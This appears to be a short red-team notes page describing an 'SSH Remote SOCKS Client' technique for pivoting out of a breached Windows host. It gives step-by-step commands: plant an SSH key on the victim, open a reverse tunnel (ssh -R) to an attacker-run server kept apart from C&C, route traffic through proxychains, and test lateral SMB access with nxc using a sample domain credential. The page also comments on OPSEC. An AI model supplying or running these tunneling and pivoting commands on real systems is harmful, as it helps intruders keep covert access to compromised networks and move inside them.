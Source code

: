 TBD

## SSH Remote SOCKS Client
- If the network did not block an outbound connection
- ssh client in windows is exist (usually exist)
- not very OPSEC
- Reference: https://trustedsec.com/blog/the-socks-we-have-at-home

```
1. Deploy a dedicated instance / machine for this tunneling purpose, make sure that the network segmentation is separated from your C&C infrastructure (Separate VPC). 

2. Create a non root privilege user in tunneling instance
3. Generate new SSH Key in victim machine' side, put the pub key within the authorized_key of the tunneling instance 

4. Start port forwarding originate from breached machine
> ssh -R 9095 forward@remoteserver -o StrictHostKeyChecking=no
> ssh forward@remoteserver -R 9050 -N -o StrictHostKeyChecking=no

4. Configure proxychains in tunneling instance
> socks5 127.0.0.1 9095

5. Test your pivoting setup
> proxychains4 -q nxc smb [victimip] -u jose.monitaz -p V3rySecur3P@ssword -d acme.com
```